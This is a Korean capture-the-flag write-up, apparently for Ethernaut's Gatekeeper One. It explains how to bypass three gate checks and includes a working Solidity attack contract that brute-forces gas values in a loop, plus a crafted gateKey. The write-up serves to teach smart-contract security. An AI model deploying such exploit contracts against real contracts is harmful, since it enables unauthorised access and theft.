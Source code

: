 # 공격

Gate를 통과하기 위해서는 gateOne,gateTwo,gateThree를 통과해야 한다.

1. gateOne 은 컨트랙트를 통해 인스턴스의 enter를 호출하여 msg.sender와 tx.origin이 다르게 하여 통과한다.
2. gateTwo는 gas를 8191의 배수로 맞춰서 나머지 결과가 0이 되도록하여 통과한다. 가스를 설정하여 전송하려면 call 함수로 enter를 호출해야한다.
3. gateThree는 gateKey로 0x111100000000A39A를 파라미터로 주어 통과한다.

공격 컨트랙트를 작성하자. 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract gateOneAttack{
    address gate ;
    bytes8 gateKey = 0x111100000000A39A;

    constructor(address _addr) public {
        gate=_addr;
    }
    
    function Attack() public{        
        for (uint i = 20000; i < 20000+8191; i++) {
            (bool success, )=address(gate).call.gas(i)(abi.encodeWithSignature("enter(bytes8)", gateKey));
        if(success){
            break;
        }
        }
    }
}
```

Attack에서 gas를 20000~28191로 반복하여 보내고 있는데 이 중에서 무조건 하나는 8191로 나눈 나머지가 0이 되기에 공격에 성공할 것이다.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a25afd89-8552-4358-ae89-dad9f3a90f01/Untitled.png)

```solidity
=> Instance address
0x8184f905faC6940c96350bDB18563eDfDE5A9704
```

그리고 이를 문제 인스턴스의 주소인 0x8184f905faC6940c96350bDB18563eDfDE5A9704 를 담아서 deploy 후 공격을 진행한다.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fd75ae19-2082-4f08-bd19-c8345d7baa5f/Untitled.png)

반복문을 통해서 계속해서 가스를 보내다보니 가스비가 좀 비싸긴하다..

![성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1954badd-de3d-4be7-a787-22f44637973b/%EC%84%B1%EA%B3%B5.png)

```solidity
await contract.entrant()
'0x83b26d6A3D3FaBd9F0A5f1d69DCA1CE6cc4eA39a'
```
